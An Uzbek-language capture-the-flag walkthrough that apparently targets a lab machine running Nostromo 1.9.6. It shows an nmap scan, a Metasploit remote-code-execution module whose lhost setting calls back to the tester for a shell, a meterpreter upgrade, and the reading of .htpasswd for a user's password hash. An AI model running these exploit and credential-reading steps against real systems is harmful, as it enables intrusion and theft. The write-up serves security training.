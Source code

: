 **Reconnaissance**  
`nmap -sV 10.129.1.193`  

![image](https://github.com/user-attachments/assets/d4b5a5f1-cc1f-49e9-a43c-cc3fa038a1cf)  

Port 80 ochiq bo‘lgani uchun brauzer orqali 10.129.1.193 IP-manzilini tekshirib chiqamiz, ammo foydali narsani topa olmaymiz.  

![image](https://github.com/user-attachments/assets/e0ffbe0d-c885-42ba-95b9-7b9182b5ea06)  

**Exploitation**  
Zaiflikdan foydalanish uchun Metasploit Framework dan foydalanamiz. Biz `Nostromo <= 1.9.6` versiyasidagi masofadan kod bajarish (RCE) zaifligini ekspluatatsiya qiluvchi modulni topdik. Ushbu muammo nostromo nhttpd ning `http_verify` funksiyasidagi directory traversal tufayli yuzaga keladi, bu esa tajovuzkorga maxsus yaratilgan HTTP so‘rovi orqali masofadan kod bajarishga imkon beradi.  

```
use exploit/multi/http/nostromo_code_exec
set rhosts 10.129.1.193
set lhost 10.10.14.52
exploit
```  
![image](https://github.com/user-attachments/assets/a4b19893-685d-42e9-8ffe-0ec6c7e25445)

Agar siz birinchi bo‘lib zaiflikdan foydalangan bo‘lsangiz, Metasploit’da `1-ID` bilan sessiya ochiladi. Uni meterpreter ga o‘tkazish uchun `sessions -u 1` buyrug‘idan foydalanasiz. Keyin, yangi meterpreter sessiyasiga ulanish uchun `sessions 2` buyrug‘ini kiritasiz.  

```
sessions -u 1
sessions 2
```  

Ushbu buyruqlar yordamida biz meterpreter shell olamiz. Keyin `/var` katalogiga o‘tib, undagi fayllarni tekshiramiz. Bu yerda `nostromo` katalogi mavjud.  
```
cd /var
ls
cd nostromo
ls
```  
![image](https://github.com/user-attachments/assets/5a112b8e-f427-42f0-9f4f-02c7ea3a6df5)   

`.htpasswd` faylini ko‘rib, `David` foydalanuvchisi va uning xeshlangan paroli ni topamiz.
Keyin Davidning `home` katalogiga o‘tib, `protected-file-area` nomli qiziqarli katalogni topamiz. Ushbu katalogda `backup-ssh-identify-files.tgz` arxivi bor. Uni yuklab olamiz.  
```
cd conf
ls
cat .htpasswd
cat nhttpd.conf
```   
![image](https://github.com/user-attachments/assets/35f759a8-b731-4bb0-97df-899e0f2bed94)   


